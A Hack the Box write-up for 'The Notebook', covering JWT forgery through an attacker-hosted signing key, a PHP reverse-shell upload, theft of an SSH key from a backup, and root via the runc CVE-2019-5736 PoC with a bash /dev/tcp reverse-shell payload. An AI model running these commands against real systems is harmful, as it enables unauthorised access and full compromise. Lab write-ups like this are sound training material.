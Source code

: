 +++
author = "Nick"
categories = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
date = 2021-07-31T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/07/noetbook.png"
slug = "hack-the-box-the-notebook"
summary = "Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in"
tags = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
title = "Hack the Box - The Notebook"

+++


Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in.

As always, we start our enumeration with `nmap`. Here are our results:

```
Nmap scan report for 10.10.10.230
Host is up (0.053s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing too crazy, only one obscure port - 10010. So we'll see what's being hosted on port 80.

When we visit the site, we see a basic landing page. We have two options, `Register` and `login`. When we click the register link, we are brought to a page to do just that.

![](/images/2021/07/image.png)

The login page is simliar as well.

![](/images/2021/07/image-1.png)

We don't see anything in the source for the pages, so we'll start some enumeration with `ffuf`. 

Command:
`ffuf -u http://10.10.10.230/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt`

We get back limited results.

```
login                   [Status: 200, Size: 1250, Words: 173, Lines: 31]
register                [Status: 200, Size: 1422, Words: 193, Lines: 33]
admin                   [Status: 403, Size: 9, Words: 1, Lines: 1]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
```

Now we'll load up `Burpsuite` and start looking at what the site is doing. Once we have that loaded up, we create an account. We now have access to a new section called Notes. During the authentication processes, we see an authentication cookie get passed:

![](/images/2021/07/image-2.png)

We know it's as `JWT` token due to it's formatting.

![](/images/2021/07/image-5.png)

The yellow portion is the `Header`, the green portion is the `payload` and the blue is the verification signature. 

Now if we take this data, and drop it into [JWT.io](https://jwt.io) we can see the decoded data:

![](/images/2021/07/image-6.png)

What's good is that we can see that the `privKey` value on the local machine. So we're going to try and create our own `JWT` token with an `admin_cap` variable set to `true`. There are a few ways to do this, in my case, quickly generating the value via the CLI was how I did it.

Commands:
`echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.15:7070/privKey.key"}' | base64`
The above will create our `Header` value on the token.

`echo '{"username":"bobbillby","email":"bob@rootflag.io","admin_cap":true}' | base64`
This will create the `Payload` value on the token.

Now we have two sets of token values, we need to create a key to match our signature portion.

Command:
`ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key`

Then we can host that key on our local machine on the same ports:

Command:
`python -m SimpleHTTPServer 7070`

Now we can take our generated outputs from above, and paste them into JWT.io to get our proper admin cookie.

![](/images/2021/07/image-7.png)

Now armed with this value, we need to modify our current cookie session value. Simply open up our `Developer tools` and head over to the Storage tab. Here we can see the values of the cookies for this site:

![](/images/2021/07/image-8.png)

Let's add our new JWT token and refresh. We should now see an `Admin Panel` section in our header!

![](/images/2021/07/image-9.png)

In this section, we see that we can view notes and upload a file. This is probably where we're going to upload our reverse shell!

![](/images/2021/07/image-10.png)

I tend to always use [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) shell. So, now we just upload it.

![](/images/2021/07/image-11.png)

Make sure you have a listener running before we view the file on the port you specified, otherwise you'll miss the connection.

![](/images/2021/07/image-12.png)

We then catch our shell! Awesome, a foothold. Now we need to start enumerating internally. We'll copy over `linpeas.sh` and see what we can find.

![](/images/2021/07/image-13.png)

We see an interesting entry in our `backups` location - `home.tar.gz`. So we'll view the contents of this file.

Command:
`tar -tvf home.tar.gz`

![](/images/2021/07/image-14.png)

We see an `.ssh` directory. So we're going to want to extract the files and copy the key to our local machine to see if it works.

Command:
`tar -xvf home.tar.gz -C /tmp/temp` <= We created this directory, you don't need to. You can use whatever path you want.

Now we can navigate to the .ssh key and snag our key.

![](/images/2021/07/image-15.png)

We can copy this over by whatever means you like. Then we try to `SSH` into the target as Noah using this key.

Commands:
`chmod 0400 noah-key`
`ssh -i noah-key noah@10.10.10.230`

Once we get in, we snag our `user.txt` flag!

![](/images/2021/07/image-16.png)

Now we're in as a user, we can enumerate a bit further with more priviledges. I always run `sudo -l` once I get onto a box, it usually has a good path forward.

![](/images/2021/07/image-17.png)

Since `linpeas.sh` is still on the machine, we'll re-run that to start. Shortly into the run, we find that `runc` is on the machine.

![](/images/2021/07/image-18.png)

Some googling around leads us to CVE-2019-5736. [Here's a run down](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) of the CVE. It's not too hard to find a PoC for this CVE, we have [one here](https://github.com/Frichetten/CVE-2019-5736-PoC). We do meet the requirements for this PoC, we have root access to a container. 

First let's clone the repo down to our machine.

Command:
`git clone https://github.com/Frichetten/CVE-2019-5736-PoC`

Now we need to modify the `main.go` file in order to modify the payload. We're going to give the payload a shell back to us:

`#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.15/6969 0>&1`

Now we can rebuild the application.

Command:
`go build main.go`

Now we can host a file server in this location.

Command:
`python3 -m SimpleHTTPServer 80`

We now want to gain a shell into our `Docker` container.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Now we'll download our compiled exploit.

Command:
`wget 10.10.14.15/main`

Now make it executable.

Command:
`chmod +x main`

Now we run the exloit.

Command:
`./main`

![](/images/2021/07/image-19.png)

Now to trigger this fully, we need to run another docker command, same as above.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Once we run that, we should see our listener light up!

![](/images/2021/07/image-20.png)

There we have it, root access!

Another box down, semi-realistic as well. If you found the write-up useful, send some respect my way!

HTB Profile - https://app.hackthebox.eu/profile/95635



